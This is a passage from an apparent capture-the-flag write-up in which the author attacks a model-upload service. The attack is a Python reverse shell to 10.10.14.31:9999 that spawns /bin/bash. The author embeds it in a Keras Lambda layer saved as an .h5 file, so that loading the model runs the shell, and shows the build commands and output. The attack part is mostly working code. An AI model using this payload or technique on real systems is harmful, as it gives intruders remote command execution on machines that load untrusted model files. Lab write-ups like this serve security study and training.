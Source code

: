 ```python
!echo 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.31",9999));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' > tensorshell.py
```

This uploaded fine but did not pop a shell. Uploads recommended .h5 format so we'll have to continue with [this Lambda injection methodology I found](https://www.kb.cert.org/vuls/id/253266)


```python
!cat tensorshell.py
```

    import tensorflow as tf
    from tensorflow.keras.layers import Input, Lambda
    from tensorflow.keras.models import Model
    
    def harmless_lambda(x):
        import os,pty,socket;s=socket.socket();s.connect(("10.10.14.31",9999));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")
    
    inputs = Input(shape=(1,))
    outputs = Lambda(harmless_lambda)(inputs)
    model = Model(inputs, outputs)
    
    # Save the model as HDF5 with a Lambda layer
    model.save("test_lambda_layer.h5")
    print("Model with Lambda layer saved as test_lambda_layer.h5")


With the container built and the source code ready, lets put it all together:

```sh
 docker run --rm -it -v $(pwd):/source artificial     
root@981134245a0b:/code# ls
tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl
root@981134245a0b:/code# cd /source
root@981134245a0b:/source# ls
Dockerfile  engagement.ipynb  engagement_files  gobuster-task.txt  requirements.txt  requirements.txt.1  site  solve.py  tensorshell.py
root@981134245a0b:/source# python tensorshell.py 
2025-06-21 19:30:59.184751: I tensorflow/core/platform/cpu_feature_guard.cc:182] This TensorFlow binary is optimized to use available CPU instructions in performance-critical operations.
To enable the following instructions: AVX2 FMA, in other operations, rebuild TensorFlow with the appropriate compiler flags.
root@981134245a0b:/source# exit
exit
 ls
... 
test_lambda_layer.h5
```

During the build, I did have to have the port open here to allow the method to execute once. However, once I re-opened the port and submitted my .h5 file, we get the following shell.

Here I ran through commands pretty quickly because it kept booting me off, the model run must have a really short timeout.

